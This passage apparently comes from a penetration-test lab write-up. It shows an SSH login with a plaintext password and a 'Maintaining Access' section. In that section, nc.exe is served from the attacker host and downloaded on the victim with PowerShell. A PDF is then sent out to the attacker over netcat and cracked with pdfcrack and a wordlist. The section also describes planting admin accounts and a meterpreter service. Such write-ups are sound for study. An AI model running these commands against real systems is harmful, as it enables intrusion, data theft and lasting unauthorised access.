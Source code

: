 ```bash
ssh ariah@192.168.222.99 # password: NowiseSloopTheory139

# output
Microsoft Windows [Version 10.0.18362.1016]
(c) 2019 Microsoft Corporation. All rights reserved.

ariah@NICKEL C:\Users\ariah>
```

## Maintaining Access
Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable. The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again. Many exploits may only be exploitable once and we may never be able to get back into a system after we have already per-formed the exploit. Victor added administrator and root level accounts on all systems compromised. In addition to the administrative/root access, a Metasploit meterpreter service was installed on the machine to en-sure that additional access could be established.

#### Windows
```bash
sudo cp /usr/share/windows-binaries/nc.exe .
sudo python3 -m http.server 80
```

```bash
powershell
cd c:\ftp
iwr http://192.168.49.222/nc.exe -outfile nc.exe
```

```bash
# attacker side
nc -nvlp 80 > loot.pdf

# victim side
nc.exe 192.168.49.222 80 < Infrastructure.pdf
```

```bash
sudo apt install pdfcrack
pdfcrack loot.pdf -w /usr/share/wordlists/rockyou.txt

# output
PDF version 1.7
Security Handler: Standard
V: 2
R: 3
P: -1060
Length: 128
Encrypted Metadata: True
FileID: 14350d814f7c974db9234e3e719e360b
U: 6aa1a24681b93038947f76796470dbb100000000000000000000000000000000
O: d9363dc61ac080ac4b9dad4f036888567a2d468a6703faf6216af1eb307921b0

Average Speed: 64386.9 w/s. Current Word: 'shorty1000'
Average Speed: 64406.8 w/s. Current Word: 'yossyluis'
Average Speed: 63730.4 w/s. Current Word: 'shahzana'
Average Speed: 63438.4 w/s. Current Word: 'newsnet1'
Average Speed: 63633.8 w/s. Current Word: 'lacadie8'
Average Speed: 63369.6 w/s. Current Word: 'haznkilla'
Average Speed: 61379.8 w/s. Current Word: 'cupcakesa'
found user-password: 'ariah4168'
```
